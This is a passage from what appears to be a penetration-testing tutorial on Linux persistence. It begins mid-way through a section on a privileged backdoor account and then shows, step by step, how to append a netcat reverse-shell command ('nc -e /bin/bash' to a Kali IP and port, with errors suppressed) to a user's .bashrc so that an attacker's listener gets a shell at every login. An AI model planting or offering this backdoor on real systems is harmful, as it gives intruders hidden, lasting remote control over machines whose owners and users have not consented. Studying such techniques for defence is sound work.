     As shown in the preceding screenshot, the user account has administrative privileges and can run any command on the system without accessing or interacting with a “root” account.

    This account can be used for backdoor access whenever you want to avoid using the “root” account or any other legitimate user accounts on the target system and ensures that you have overt access to the target.

## Unix Shell Configuration Modification

This persistence technique will involve adding a bash reverse command that will connect back to our netcat listener in a user account’s .bashrc file. The .bashrc file is a config file that is used to customize bash and is executed when a user logs in with the bash shell.

1. The first step will involve opening the .bashrc file with a text editor This can be done by running the following command:

        nano ~/.bashrc

1. After opening the file with a text editor, we can add a simple bash command that will provide us with a reverse shell whenever a user logs in. This can be done by adding the following command:

        nc -e /bin/bash <KALI-IP> <PORT> 2>/dev/null &

    As shown in the following screenshot, the command should contain your Kali IP and port netcat is listening on.

    ![bashrc file with netcat command](bashrc-file-with-netcat-command.png "bashrc file with netcat command")

1. After adding the bash command to the .bashrc file, we can set up a listener with Netcat on Kali by running the following command:

        nc -nvlp <PORT>

1. Whenever a user logs in to the user account, the command in the .bashrc file will be executed and will consequently provide you with a reverse shell on the netcat listener as shown in the following screenshot.

    ![netcat listener receiving bashrc netcat connection](netcat-listener-receiving-bashrc-netcat-connection.png "netcat listener receiving bashrc netcat connection")

